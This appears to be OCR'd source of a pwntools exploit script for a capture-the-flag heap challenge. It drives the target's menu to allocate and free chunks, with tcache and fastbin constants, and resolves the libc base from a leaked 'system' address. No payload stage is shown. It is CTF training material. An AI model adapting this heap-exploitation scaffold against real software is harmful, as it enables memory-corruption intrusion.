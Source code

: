 ```python
TCACHE_MAX_BINS = 7
FASTBIN_INDEX = (TCACHE_MAX_BINS + 1) - 1  # We define it as such for clarity
PLACEHOLDER = 0xDEADBEEF

current_index = 0

elf = context.binary = ELF(CHALLENGE, checksec=False)


if args.REMOTE:
    io = remote(HOST, PORT)
    libc = ELF(CHALLENGE_LIBC, checksec=False)
else:
    io = elf.process(aslr=False)
    libc = ELF(DEBUG_LIBC, checksec=False)


def delightful(amount: int) -> int:
    global current_index

    io.sendlineafter(CHOICE_PROMPT, str(1))
    io.sendlineafter(CHOICE_PROMPT, str(1))
    io.sendlineafter(CHOICE_PROMPT, str(amount))

    current_index += 1

    return current_index - 1


def devious(amount: int):
    global current_index

    io.sendlineafter(CHOICE_PROMPT, str(1))
    io.sendlineafter(CHOICE_PROMPT, str(2))
    io.sendlineafter(CHOICE_PROMPT, str(amount))

    current_index += 1

    return current_index - 1


def flag():
    io.sendlineafter(CHOICE_PROMPT, str(1))
    io.sendlineafter(CHOICE_PROMPT, str(3))


def sell(index: int):
    io.sendlineafter(CHOICE_PROMPT, str(2))
    io.sendlineafter(CHOICE_PROMPT, str(index))


def _exit():
    io.sendlineafter(CHOICE_PROMPT, str(3))


def get_complementary_deet() -> int:
    io.recvuntil(COMPLEMENTARY_MARKER)
    return int(io.recvline(), 16)


with log.progress("Resolving libc base address"):
    libc_system = get_complementary_deet()
    libc.address = libc_system - libc.sym.system
```